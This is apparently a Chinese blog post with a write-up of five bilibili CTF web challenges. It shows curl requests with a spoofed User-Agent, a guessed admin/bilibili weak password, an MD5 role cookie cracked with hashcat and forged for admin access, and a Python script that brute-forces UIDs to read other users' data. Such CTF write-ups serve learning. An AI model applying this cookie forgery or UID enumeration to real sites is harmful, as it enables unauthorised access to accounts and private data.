








又名 bilibili 猜谜竞赛。被 W 拖来玩了。还挺有意思的。

这里是第一到第五题的题解。

<!-- more -->

## 一  页面的背后是什么？

> 页面的背后是什么？
> 
> 题目地址：http://45.113.201.36/index.html

打开之后页面长这样。



二话不说 <kbd>F12</kbd> 调出控制台开始看源码。翻开 `<head>...</head>`，看到里面有两个奇怪的 `<script>...</script>`。展开，有一串数值 `values="flag1" value="22c9e7f7-1e0bf6d2-2adc392b-5d79aeff"`。



这个大概就是我们要的答案了。

## 二  真正的秘密只有特殊的设备才能看到

> 真正的秘密只有特殊的设备才能看到
> 
> 题目地址：http://45.113.201.36/index.html

等下这个页面怎么和上面一样？

开 <kbd>F12</kbd> 调出控制台看源码。发现后面有个 `flag2`。行吧，再乱翻看看。

[](image/2020-10-24-bilibili-ctf/2020-10-25_16-09-05.png)

这里有个神秘的 url 以及跟 `flag2` 一样的描述。

看到 `get` 就马上联想到网络相关。不过我用的是 Windows，PowerShell 的 `Invoke-WebRequest` 太难用了……那么 WSL 启动！

从请求头里捞出 cookie，跟上面的参数一起传过去。

```bash
$ curl -b 'session=(my cookie)' -X GET http://45.113.201.36/api/ctf/2
{"code":403,"data":"","msg":""}
```

？被服务器拒绝了？

重新看看页面。

> 真正的秘密只有特殊的设备才能看到
> 
> 需要使用bilibili Security Browser浏览器访问～

稍加思索.jpg

[](image/2020-10-24-bilibili-ctf/2020-10-25_16-42-16.png)

User-Agent。作用之一是标识浏览器。那么，往里面加个 `-A` 构造一下 UA 试试？

```bash
$ curl -b 'session=(my cookie)' -A 'bilibili Security Browser' -X GET http://45.113.201.36/api/ctf/2
{"code":200,"data":"5d0f5c55-eecf0ea0-9521210c-6ae9c033","msg":""}
```

[](image/2020-10-24-bilibili-ctf/2020-10-25_16-42-17.png)

成功！

## 三  密码是啥？

> 密码是啥？
> 
> 题目地址：http://45.113.201.36/login.html

打开后页面长这样。

[]((image/2020-10-24-bilibili-ctf/2020-10-25_16-45-22.png))

继续开 <kbd>F12</kbd> 看源码。

[]((image/2020-10-24-bilibili-ctf/2020-10-25_16-48-13.png))

它用 json 传值。就懒得用命令行了，直接用网页。

继续翻，似乎也没看到什么有用的信息。请求头和回应头里也没有什么特别的。

完全没有。那就直接本社爆破。这个破站经常用的几个字符串无非就是 `2233`、`bilibili` 那些。然后它要的又是管理员，那账号就直接试试 `Administrator`，`Admin`，`Administrator22`，`Administrator33`，`administrator`，`admin`……

账号填 `admin`，密码填 `bilibili`。

[](image/2020-10-24-bilibili-ctf/2020-10-25_17-29-50.png)

好的，flag 出来了。（居然是弱口令……）

## 四  对不起，权限不足～

> 对不起，权限不足～
> 
> 题目地址： http://45.113.201.36/superadmin.html

前五题里最难的一道。

[](image/2020-10-24-bilibili-ctf/2020-10-25_17-37-40.png)

<kbd>F12</kbd>。

[](image/2020-10-24-bilibili-ctf/2020-10-25_17-42-19.png)

这回 `<script>...</script>` 在 `<body>...</body>` 里。

先用 curl 发一个 GET 看看。

```bash
$ curl -b 'session=(my cookie)' -X GET http://45.113.201.36/api/ctf/4
{"code":"200","data":"","msg":""}
```

HTTP response code 是 200，起码服务器没有拒绝我们；但是 msg 里什么都没有啊？还得继续猜。

再回到网页里看看。看看请求头和回应头里有什么东西。

[](image/2020-10-24-bilibili-ctf/2020-10-25_22-47-05.png)

cookie 里除了 session，还有个 `role=(XXX)` 的值。突然注意到这个以前没用上的 `role`。前面的题都只用了那个用作登陆验证的 `session`。

把这串值传过去。

```bash
$ curl -b 'session=(my cookie); role=ee11cbb19052e40b07aac0ca060c23ee' -X GET http://45.113.201.36/api/ctf/4
{"code":"403","data":"","msg":""}
```

？被服务器拒绝了？权限不够吗？

试试把上一道题的账号和密码传过去。

```bash
$ curl -b 'session=(my cookie); role=ee11cbb19052e40b07aac0ca060c23ee' -d 'name=admin' -d 'subject=bilibili' -X GET http://45.113.201.36/api/ctf/4
{"code":"403","data":"","msg":""}
$ curl -b 'session=(my cookie); role=ee11cbb19052e40b07aac0ca060c23ee' -d 'username=admin' -d 'passwd=bilibili' -X GET http://45.113.201.36/api/ctf/4
{"code":"403","data":"","msg":""}
$ curl -b 'session=(my cookie); role=ee11cbb19052e40b07aac0ca060c23ee' -u 'admin:bilibili' -X GET http://45.113.201.36/api/ctf/4
{"code":"403","data":"","msg":""}
```

行……继续猜。直接改role呢？

```bash
$ curl -b 'session=(my cookie); role=admin'  -X GET http://45.113.201.36/api/ctf/4{"code":"403","data":"","msg":""}
$ curl -b 'session=(my cookie); role=superadmin'  -X GET http://45.113.201.36/api/ctf/4{"code":"403","data":"","msg":""}
$ curl -b 'session=(my cookie); role=administrator'  -X GET http://45.113.201.36/api/ctf/4
{"code":"403","data":"","msg":""}
```

还是不对。

盯着 role 的这个字符串想了一下。是不是到了尝试加密解密的时候了？

去 [CTF Wiki](http://dyf.ink/crypto/hash/attack/) 里逛了一圈，拎了个 [hashcat](https://hashcat.net/hashcat/) 过来。

[](image/2020-10-24-bilibili-ctf/2020-10-26_07-59-31.png)

用 hashcat 暴力破解之后得到了后缀带个 `:user` 的字符串。看了一下，它用的加密算法是 MD5。

~~等下，前面那串不是跟上面一模一样吗？~~

~~草幸好只是在字符串后面加了个 :user，要是完全改掉了的话这不知道要破到什么时候~~

先试试把 user 替换成 admin Admin administrator Administrator superadmin sa SA……然后 MD5 加密一下传回去。

[](image/2020-10-24-bilibili-ctf/2020-10-26_08-40-46.png)

……那干脆点，连 user 的 hash 都不要了，直接上管理员名字的字符。

[](image/2020-10-24-bilibili-ctf/2020-10-26_08-44-05.png)

用 `Administrator` 做 MD5 加密传值后，成功得到 flag。

## 五  别人的秘密

> 别人的秘密
> 
> 题目地址： http://45.113.201.36/user.html

打开页面……草。

[](image/2020-10-24-bilibili-ctf/2020-10-26_08-47-46.png)

<kbd>F12</kbd> 看一下源码。

[](image/2020-10-24-bilibili-ctf/2020-10-26_08-49-27.png)

UID……

[](image/2020-10-24-bilibili-ctf/2020-10-26_08-55-30.png)

```bash
$ curl -b 'session=(my cookie)' -X GET http://45.113.201.36/api/ctf/5\?uid\=2357****
{"code":"403","data":"","msg":""}
```

果不其然（

看看 Cookies 里的 `role`。跟上一道题一样。估计没有什么有价值的东西。但旁边的文件有意思了。

[](image/2020-10-24-bilibili-ctf/2020-10-26_09-02-36.png)

这里恰好有一个 UID。那么把这个 UID 传过去。

```bash
$ curl -b 'session=(my cookie)' -X GET http://45.113.201.36/api/ctf/5\?uid\=100336889
{"code":"403","data":"","msg":""}
```

看来答案没这么直接。

在百思不得其解的时候 W 说了句：“它说是别人的秘密。要不用暴搜UID爆破一下吧？”那就爆破一下。

Python 代码很快就写出来了。

```python
import requests

url = 'http://45.113.201.36/api/ctf/5?uid='
cookies = dict(session='(my cookie)')

# 从 UID 100336889 开始，分别向前和向后搜索 1000 个 UID
for target in range(100335889, 100337889):
    res = requests.get(url + str(target), cookies=cookies)
    res.encoding = 'utf-8'
    print(str(target) + ': ' + res.text)
```

运行一下。很快，在 UID = 100336942 的时候 flag 出来了。（难怪叫别人的秘密……flag 在别的 UID 里……）

[](image/2020-10-24-bilibili-ctf/2020-10-26_10-07-47.png)

## 插曲

[](image/2020-10-24-bilibili-ctf/2020-10-25_16-48-13.png)

flag 敲成了 falg。不知道是故意的还是单纯的手滑。

[](image/2020-10-24-bilibili-ctf/2020-10-25_17-37-41.png)

你密码呢？

[](image/2020-10-24-bilibili-ctf/2020-10-26_10-07-48.png)

[](image/2020-10-24-bilibili-ctf/2020-10-26_10-11-19.png)

UID = 100336889 和 100336942 的用户原来真的存在啊。不过看上去都是普通用户。

## 用到的工具

- [curl 的用法指南 - 阮一峰的网络日志](http://www.ruanyifeng.com/blog/2019/09/curl-reference.html)
- [HTTP response codes - HTTP  MDN](https://developer.mozilla.org/zh-CN/docs/Web/HTTP/HTTP_response_codes)
- [在线unicode转中文,中文转unicode](https://www.bejson.com/convert/unicode_chinese/)
- [hashcat](https://hashcat.net/hashcat/)
